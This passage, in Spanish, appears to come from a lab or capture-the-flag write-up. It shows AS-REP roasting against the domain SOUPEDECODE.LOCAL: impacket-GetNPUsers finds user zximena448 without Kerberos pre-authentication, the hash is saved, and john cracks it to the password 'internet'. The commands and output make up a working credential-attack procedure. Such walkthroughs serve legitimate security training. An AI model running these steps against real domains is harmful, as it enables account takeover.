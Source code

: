 Esto lo podemos hacer con `GetNPUsers.py` de la suite de `impacket`
```console
$ impacket-GetNPUsers -no-pass -usersfile users.txt SOUPEDECODE.LOCAL/ | grep -v "doesn't"              
                                                                                                                
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation                                                        
                                                                                                                
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)                   
$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:4a9d54d3b2f1de250e043c447e30b331$7944ae2f3f3cc0470c59d68cf451afc2147b0d1e70ac1b9969f109c9a8e6
a9ca2af973a1f3d2a70040689025de9695eb7f5f8afb3b15e59e0230b97172b667c0f5345497bfedce477e22730a58befa67e0d9498f37cccb6264489d6bcfab63722bfb
e6fed33e3818438c10f21b5c603dece7774f3f01f0e79b629936afbef589f0b1f34fc8abdfb39b5028032c02bb6491aeeb0cae9990de9b79de44011909c40302d8ca3a72
3c7588d97c8b509604d0c6e8ed81146b91b208956825f1fdeda1d01ff032c1dadc49b86f647aa929c0b5008c3b16ea68324cac3487a8f9fa4e47967a21d9cd93494b1d64
bda99053e1813cb0943da629                                                                                        
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)                   
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)                                           
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)                                           
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)  
```

Y hemos encontrado que el usuario `zximena448` no requiere pre-autenticación en kerberos.

Nos guardamos el hash.
```console
$ cat hashes 
$krb5asrep$zximena448@SOUPEDECODE.LOCAL:d7821ecb2cf32c0fdc678fe1ae4ee5e8$6265255ef918929981ee2e56636d896582ba8648374a8e0c2b1bda6ef5a68717a6a9ef094aa526bb90d42d6a6cb011d2e15df6ba074056e5ea50cd5229bfa4d0ad27f58a1d9b5d27350fbef49bfc65f84899b9e9f2217ab40c802cd8adceaca33e46ec04bb68952c3996ec1161db4a64efc2cdfb16b21b95b53380ccc60c2f6389ea9dac8ea5f38b11c6c4d8a23de08528ab66a0096fb60e932e9da9f916cc1e7f37daa054b52fd52d50c17a307d7a6aa5a92bf4ea5d400703fdbb739c056a5398e7d37af73e6075dcdae169adcd0cd1aa2b637f083acad5f6edd890068ba9017c08e58864c7ed892fa46ace06c2ee7d8e080f9b217d
```

Y con `john` lo vamos a intentar crackear.
```console
$ john -w=/usr/share/wordlists/rockyou.txt hashes 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
internet         ($krb5asrep$zximena448@SOUPEDECODE.LOCAL)     
1g 0:00:00:00 DONE (2024-10-03 15:10) 100.0g/s 102400p/s 102400c/s 102400C/s 123456..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
